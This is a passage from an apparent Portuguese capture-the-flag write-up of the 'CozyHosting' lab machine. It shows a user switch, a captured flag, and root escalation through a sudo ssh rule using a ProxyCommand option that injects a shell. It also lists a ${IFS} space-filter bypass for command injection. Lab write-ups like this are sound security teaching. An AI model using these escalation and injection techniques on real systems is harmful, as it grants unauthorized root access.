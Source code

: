 
### Escalando para usuário josh e Primeira Flag

Logado com sucesso:

```shell
app@cozyhosting:/usr/bin$ su josh
Password: 
josh@cozyhosting:/usr/bin$ cd ~
josh@cozyhosting:~$ ls
user.txt
josh@cozyhosting:~$ cat user.txt 
289d6eb5bdf29c64f8f870f2b83f1905
josh@cozyhosting:~$ 
```
{: .nolineno }
### Escalando para root

```shell
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
{: .nolineno }
O usuário josh pode usar sudo com ssh.  
Checando o [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) o comando para obter root é:

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    
```shell
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# 
```
{: .nolineno }

### Ultima Flag

![Alt text](/assets/img/8cozyhosting.png){: .w-75 .normal}

## Conhecimentos adquiridos:  
- Comandos POstgres  
- Vulnerabilidade da Aplicação 
- Bypass para enviar comandos e encode no burp
- Comandos Postgres (psql)
- wordlist especifica para a aplicação.
- usar quando não é permitido espaços ${IFS} (IFS = Internal Field Separator).